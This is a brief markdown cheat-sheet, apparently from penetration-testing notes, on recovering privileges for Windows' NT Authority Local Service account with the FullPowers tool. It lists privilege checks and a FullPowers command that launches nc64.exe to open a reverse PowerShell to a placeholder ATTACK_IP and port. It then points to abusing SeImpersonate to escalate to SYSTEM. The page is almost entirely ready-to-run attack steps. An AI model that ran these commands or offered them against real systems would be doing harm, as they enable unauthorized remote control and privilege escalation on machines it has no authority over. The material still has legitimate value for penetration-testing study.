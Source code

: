 # Recover privileges of NT Authority Local Service Account

## Source: https://itm4n.github.io/localservice-privileges/ and https://github.com/itm4n/FullPowers

### Steps:

1) Check your privileges

        whoami /priv

2) Run the FullPowers tool to regain the privileges of the NT Authority Local Service account we are currently on

        FullPowers.exe -c "C:\temp\nc64.exe ATTACK_IP PORT -e powershell" -z

### OR

        FullPowers -x

3) Check your privileges again

        whoami /priv

If the bug was successful, then you can use the SeImpersonate Privilege or any other sensitive one to go for privilege escalation to SYSTEM user
